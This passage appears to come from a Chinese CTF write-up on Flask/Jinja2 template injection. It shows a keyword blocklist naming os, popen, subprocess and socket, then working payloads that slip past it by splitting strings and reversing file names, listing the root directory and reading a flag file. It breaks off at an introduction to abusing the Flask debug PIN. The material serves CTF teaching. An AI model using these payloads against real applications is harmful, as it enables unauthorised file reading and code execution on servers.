 ```python
 def waf(str):
 black_list = ["flag","os","system","popen","import","eval","chr","request",
 "subprocess","commands","socket","hex","base64","*","?"]
 for x in black_list :
 if x in str.lower() :
 return 1
```

使用字符串拼接绕过：import = imp + ort   os =o+s

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}
```

​	![image-20240219235613440](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240219235613440.png)

读取this_is_the_flag.txt：

```python
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```



###### 倒转输出

使用切片的形式，简单测试一下，使用[::-1]既可以倒序输出全部，这样就可以绕过过滤

![img](https://img-blog.csdnimg.cn/2021061015110516.png)

payload2：

```
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read()}}{% endif %}{% endfor %}
```

同样可以得到flag


###### Flask模板注入中debug模式下pin码的获取和利用

查看提示：

![image-20240219225001307](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240219225001307.png)

其中解码有报错界面：

需要输入pin码

![image-20240220000959390](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20240220000959390.png)

文件包含，PIN码生成
